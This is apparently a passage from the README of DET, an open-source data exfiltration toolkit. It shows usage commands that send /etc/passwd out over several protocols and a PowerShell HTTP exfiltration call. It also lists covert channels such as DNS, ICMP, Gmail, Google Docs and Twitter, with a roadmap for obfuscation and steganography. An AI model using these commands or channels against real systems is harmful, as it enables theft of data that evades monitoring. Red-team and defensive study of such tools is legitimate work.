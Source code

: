 To load every plugin and exclude DNS: 

```bash
python det.py -c ./config.json -e dns -f /etc/passwd
```
And in PowerShell (HTTP module): 

```powershell
PS C:\Users\user01\Desktop>
PS C:\Users\user01\Desktop> . .\http_exfil.ps1
PS C:\Users\user01\Desktop> HTTP-exfil 'C:\path\to\file.exe'
```

# Modules

So far, DET supports multiple protocols, listed here: 

- [X] HTTP(S)
- [X] ICMP
- [X] DNS
- [X] SMTP/IMAP (eg. Gmail)
- [X] Raw TCP
- [X] PowerShell implementation (HTTP, DNS, ICMP, SMTP (used with Gmail))

And other "services": 

- [X] Google Docs (Unauthenticated)
- [X] Twitter (Direct Messages)

# Experimental modules

So far, I am busy implementing new modules which are almost ready to ship, including: 

- [ ] Skype (95% done)
- [ ] Tor (80% done)
- [ ] Github (30/40% done)

# Roadmap

- [X] Add proper encryption (eg. AES-256) Thanks to [ryanohoro](https://github.com/ryanohoro)
- [X] Compression (extremely important!) Thanks to [chokepoint](https://github.com/chokepoint)
- [ ] Proper data obfuscation and integrating [Cloakify Toolset Toolset](https://github.com/trycatchhcf/cloakify)
- [ ] FTP, FlickR [LSB Steganography](https://github.com/RobinDavid/LSB-Steganography) and Youtube modules

# References

Some pretty cool references/credits to people I got inspired by with their project: 

- [https://github.com/nullbind/Powershellery/](Powershellery) from Nullbind.
- [https://github.com/ytisf/PyExfil](PyExfil), truely awesome. 
- [https://github.com/m57/dnsteal](dnsteal) from m57.
- [https://github.com/3nc0d3r/NaishoDeNusumu](NaishoDeNusumu) from 3nc0d3r.
- [https://github.com/glennzw/exphil](Exphil) from Glenn Wilkinson.
- WebExfile from Saif El-Sherei
